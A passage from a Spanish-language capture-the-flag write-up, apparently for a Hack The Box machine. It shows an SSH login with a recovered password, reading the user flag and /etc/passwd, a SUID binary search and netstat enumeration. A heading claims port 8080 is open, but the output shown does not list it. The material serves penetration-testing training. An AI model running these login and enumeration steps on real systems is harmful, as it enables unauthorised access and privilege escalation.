 Podemos iniciar sesión por SSH
```console
$ sshpass -p 'insaneclownposse' ssh michael@sightless.htb
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
```

Y leer la flag de usuario.
```console
michael@sightless:~$ cat user.txt 
e47db9312c0f3...
```

# Privilege Escalation
Vemos que también está el usuario `john` en la máquina víctima.
```console
michael@sightless:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
michael:x:1000:1000:michael:/home/michael:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Encontramos un binario con permisos de SUID que no es habitual encontrarlo.
```console
michael@sightless:/opt/google/chrome$ find / -perm -4000 2>/dev/null
/opt/google/chrome/chrome-sandbox
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

El binario al que me refiero es `/opt/google/chrome/chrome-sandbox`

Antes de estar tocando esto, vamos encontré otra cosa interesante.

## Port Forwarding
El puerto 8080 está abierto internamente.
```console
michael@sightless:/opt/google/chrome$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56893         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
```